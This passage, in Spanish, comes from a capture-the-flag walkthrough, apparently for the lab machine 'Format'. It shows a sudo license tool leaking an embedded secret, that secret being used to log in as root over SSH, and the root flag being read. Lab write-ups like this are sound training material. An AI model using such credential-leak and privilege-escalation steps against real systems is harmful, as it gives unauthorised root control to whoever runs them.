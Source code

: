 ```console
cooper@format:/usr/bin$ sudo /usr/bin/license -p test

Plaintext license key:
------------------------------------------------------
microblogtestPI~{?|n>347`([oiD%]]}+TmLI7):-Yyi|_s)v6Nb'unCR4ckaBL3Pa$$w0rd'test

Encrypted license key (distribute to customer):
------------------------------------------------------
gAAAAABm2Kd0vioajxidv-Ha77lwDvdWwKcUaS_QJVpmY1Lk9LMoKbEH_d5Hy8rD3uB1i_3Wm_GUp0iaIb9Dwa6iX98Vg57Bwq_qhtPy7LpQwMT0dAlqTBHb27AefkNHkjSImC7Puhd4Cp06MPhodX19OJHH8ZOfrQ8ttRuK4v-cnQCdFDj5S1A=
```

Y donde tendría que haberse escrito `testtest` se ha escrito `'unCR4ckaBL3Pa$$w0rd'test`, así que `unCR4ckaBL3Pa$$w0rd` es el `secret` que se usa para encriptar la licencia.

Ahora podemos migrar al usuario `root` con esta clave.
```console
cooper@format:/usr/bin$ ssh root@127.0.0.1
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:5g/lIE6E8fQVRIJhCTQ/l6jE2Sh56FYGSFi4iLbQQko.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '127.0.0.1' (ECDSA) to the list of known hosts.
root@127.0.0.1's password: 
Linux format 5.10.0-22-amd64 #1 SMP Debian 5.10.178-3 (2023-04-22) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue May 23 18:43:13 2023 from 10.10.14.41
root@format:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Podemos leer la flag de `root`
```console
root@format:~# cat root.txt 
b7483a6a2fbd...
```

¡Y ya estaría!

Happy Hacking! 🚀